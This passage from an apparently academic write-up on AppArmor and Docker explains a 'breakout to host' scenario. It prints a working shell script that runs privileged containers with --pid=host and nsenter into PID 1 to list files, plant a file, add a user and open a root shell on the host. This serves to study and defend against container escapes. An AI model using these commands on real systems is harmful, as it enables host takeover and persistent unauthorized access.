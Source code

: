 These are the common features used for the two use cases. The rest of the rules differ depending on the target process, so we will explain the rest in the corresponding examples.

\subsubsection{Breakout to host}
In this example, the attacker tries to execute some commands on host. These commands escalate from simple actions to privileged actions.
A debian image is used as a base for the docker containers and the attacker runs the following script to start the containers:

\begin{lstlisting}[style=shellscript, caption={run\_privileged\_actions.sh}]
#!/bin/sh

#Load profile to apparmor
sudo cp attacker_profile /etc/apparmor.d
sudo apparmor_parser -r -W /etc/apparmor.d/attacker_profile

#List contents of host's root directory
echo "====== ls / ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m ls /

#Touch a new file in host's root directory
echo "====== touch HelloFromTheOtherSide ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m touch HelloFromTheOtherSide

#Add a new user on host
echo "====== useradd hacked ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m /usr/sbin/useradd hacked

#Create a shell in host
echo "====== /bin/bash ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m /bin/bash 
\end{lstlisting}

The goal of our attack is escalating from gaining read access, to write access and lastly having full access in host's filesystem. This is performed by using nsenter, targeting the mount namespace of the process with pid 1.

The process that receives PID 1, popularly termed the init process, is the first process that is started at boot time. The init process is the ancestor of all other processes and what makes it special for an attacker is that if this process dies for any reason, all other processes are killed with KILL signal and the kernel enters into a panic mode, after which you cannot do anything else, except rebooting. This characteristic constitutes init process a good target in order to take control of host.

